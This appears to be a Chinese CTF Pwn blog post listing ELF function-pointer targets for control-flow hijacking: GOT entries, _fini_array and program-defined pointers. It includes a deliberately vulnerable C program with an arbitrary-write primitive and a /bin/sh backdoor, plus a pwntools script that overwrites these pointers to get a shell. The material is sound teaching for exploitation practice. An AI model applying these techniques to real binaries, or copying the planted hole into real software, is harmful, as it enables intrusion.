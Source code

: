 ```yaml
---
title: CTF Pwn 题中 目标本体ELF 可用 函数指针 （攻击位置） 整理
date: 2021-05-31 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 对CTF Pwn题中 常见的 属于目标程序本体中的 可被攻击者利用进行控制流劫持的 函数指针 以及 触发方式 进行了整理。

附件：[test](https://xuanxuanblingbling.github.io/assets/attachment/elf/test)

| 攻击变量        | 变量位置 |触发函数  | 条件|
| --------------- | --------- |--------- |--------- |
| GOT表表项     |  .got.plt 段 |相应函数    | GOT表可写 |
| _fini_array   | .fini_array 段| exit(),main函数return  | _fini_array 可写（ -z norelro）|
| 程序自己实现的函数指针  | 程序的数据段（bss、data）、栈、堆） | 无 |


```c
#include <stdio.h>
#include <stdlib.h>

int backdoor() { system("/bin/sh"); }
int hello()    { puts("hello\n"); }
int(* func_ptr)();

int main(){
    long long * p,data;
    char rw;
    setbuf(stdout,0);
    func_ptr = hello;
    while(1){
        printf("write or return or exit or hello?\n> ");scanf("%c",&rw);scanf("%*[^\n]%*c");
        if(rw == 'w'){
            printf("addr: ");scanf("%p",&p);
            printf("data: ");scanf("%llx",&data);
            *p = data; printf("OK\n");
        }
        else if(rw == 'r') break;
        else if(rw == 'e') exit(0);
        else if(rw == 'h') func_ptr();
        scanf("%*c");
    }
    return 0;
}
```

```bash
$ gcc test.c -z norelro -o test
```

```python
from pwn import *
myelf = ELF("./test")
io = process(myelf.path)

sla      = lambda delim,data   :  io.sendlineafter(delim,data)
write    = lambda addr,data    :  (sla("> ","w"),sla("addr:",hex(addr)),sla("data:",hex(data)))
hello    = lambda              :  (sla("> ","h"))
ret      = lambda              :  (sla("> ","r"))
exit     = lambda              :  (sla("> ","e"))

def attack_func_ptr():
    write(myelf.symbols['func_ptr'],myelf.symbols['backdoor'])
    hello() # trigger
    
def attack_got():
    write(myelf.got['puts'],myelf.symbols['backdoor']) # puts("OK"); auto trigger

def attack_fini_array(): 
    # gcc test.c -z norelro -o test
    # https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/
    # https://www.coder.work/article/7496829
    # https://blog.csdn.net/easy_level1/article/details/115662443

    write(0x0600AF0,myelf.symbols['backdoor'])
    ret() # trigger 
    
    # exit also can trigger _fini_array: https://eqqie.cn/index.php/laji_note/1546/
    # exit() 

attack_func_ptr()
io.interactive()
```